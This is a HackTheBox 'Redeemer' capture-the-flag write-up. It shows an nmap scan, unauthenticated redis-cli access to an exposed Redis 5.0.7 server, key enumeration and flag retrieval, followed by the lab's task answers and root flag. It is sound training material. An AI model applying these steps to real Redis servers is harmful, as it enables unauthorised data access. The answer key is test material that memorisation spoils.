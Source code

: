 ```yaml
---
title: HackTheBox Redeemer Writeup
authors: Samarth
categories: [HackTheBox , Starting Point - Tier 0]
tags: [Linux, Redis, Databases, Vulnerability Assessment, Reconnaissance, Anonymous/Guest Access]
math: true
mermaid: true
---
```


![Redeemer-HTB](/assets/images/starting-point/Redeemer-HTB/banner.png)

## TL;DR

This writeup is based on the [__Redeemer__](https://app.hackthebox.com/starting-point){:target="_blank"} machine, which is an easy-rated Linux box on Hack the Box. After scanning the target, I found an open Redis port (6379) running Redis version 5.0.7. Redis, being an in-memory key-value store, often lacks authentication in older versions, allowing unauthenticated access. I connected to the Redis server without credentials and used the `keys *` command to list the keys. Among the keys, I found one named `flag` and retrieved its value, which contained the flag for the machine.

## Scanning Network

I began by performing an Nmap scan, which revealed open ports 6379 , corresponding to `redis`. Here are the results from Nmap scan:

```bash
nmap -sC -sV -A -T4 -Pn -p- 10.129.12.60 -oN scan/normal.scan
Starting Nmap 7.94 ( https://nmap.org ) at 2025-02-15 17:37 IST
Warning: 10.129.12.60 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.12.60
Host is up (0.22s latency).
Not shown: 65507 closed tcp ports (conn-refused), 27 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

## Enumeration

`Redis (Remote Dictionary Server)` is an open-source, in-memory key-value data store primarily used as a database, cache, and message broker. It is known for its speed and efficiency, as it keeps data in RAM rather than on disk, making read/write operations extremely fast.

The Nmap scan has identified `Redis 5.0.7`, which was released in 2019.
Since Redis frequently updates for security patches and bug fixes, this version is considered outdated and may contain known vulnerabilities.

Older `Redis` versions often lack authentication by default, allowing attackers to connect directly without credentials.

Let's try to connect with redis server without any password.

```bash
redis-cli -h 10.129.12.60
10.129.12.60:6379>
```

Let's run `info` command to know server info.

```bash
10.129.12.60:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:751
run_id:da8476e903beac68d6d48b3cee1a772d995276f6
tcp_port:6379
uptime_in_seconds:5605
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:11572470
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
```

I can list all the key using `keys *`.

```bash
10.129.12.60:6379> keys *
1) "flag"
2) "stor"
3) "numb"
4) "temp"
```

I can see that there is one key named as `flag` which indicates that it can contains flag for this machine.

```bash
10.129.12.60:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```

## Tasks

### Which TCP port is open on the machine?

```plaintext
6379
```

### Which service is running on the port that is open on the machine?

```plaintext
redis
```

### What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database

```plaintext
In-memory Datbase
```

### Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.

```plaintext
redis-cli
```

### Which flag is used with the Redis command-line utility to specify the hostname?

```plaintext
-h
```

### Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?

```plaintext
info
```

### What is the version of the Redis server being used on the target machine?

```plaintext
5.0.7
```

### Which command is used to select the desired database in Redis?

```plaintext
select
```

### How many keys are present inside the database with index 0?

```plaintext
4
```

### Which command is used to obtain all the keys in a database?

```plaintext
keys *
```

### Submit root flag

```plaintext
03e1d2b376c37ab3f5319922053953eb
```



